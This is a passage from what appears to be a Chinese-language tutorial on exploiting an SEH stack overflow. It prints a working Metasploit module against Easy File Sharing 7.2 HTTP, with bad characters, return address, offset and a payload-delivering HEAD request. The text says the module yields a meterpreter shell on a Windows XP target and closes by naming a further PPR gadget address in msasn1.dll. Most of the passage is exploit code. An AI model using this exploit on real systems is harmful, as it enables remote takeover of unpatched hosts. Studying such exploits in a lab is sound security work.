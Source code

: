    ```ruby
         'Author'          => 'yanhan',
   
         'Payload'         =>
           	{
             		'Space'       => 390,
             		'BadChars'    => "\x00\x7e\x2b\x26\x3d\x25\x3a\x22\x0a\x0d\x20\x2f\x5c\x2e"
           	},
         'Platform'      => 'Windows',
         'Targets'       =>
            		 [
               		   [
                 		   'Easy File Sharing 7.2 HTTP',
                 			{
                   		'Ret'       => 0x100188fc,
                   		'Offset'    => 4061
                 			}
               		   ]
             		 ],
         'DisclosureDate'  => '2019-01-16',
     ))
     end
   
     def exploit
       connect
       weapon = "HEAD "
       weapon << make_nops(target['Offset'])
       weapon << generate_seh_record(target['Ret'])
       weapon << make_nops(20)
       weapon << payload.encoded
       weapon << " HTTP/1.0\r\n\r\n"
       sock.put(weapon)
       handler
       disconnect
      end
   end
   
   ```

   在脚本中Ret值是我们找到的PPR的地址，Offset是我们找到的溢出点。

9. msf中运行攻击脚本获得目标xp的meterpreter。

   ![](https://superj.oss-cn-beijing.aliyuncs.com/20200523165943.png)

参考自杨老师[SEH异常处理机制的栈溢出攻击及shell提取](https://blog.csdn.net/Eastmount/article/details/104593520)。

# 0x06 总结

成功之后，思考通过mona找到了很多的dll，其中也有别的没有开SafeSEH，是不是也可以加以利用。实践发现在系统dll文件msasn1.dll中的0x76218422也有PPR可以利用。

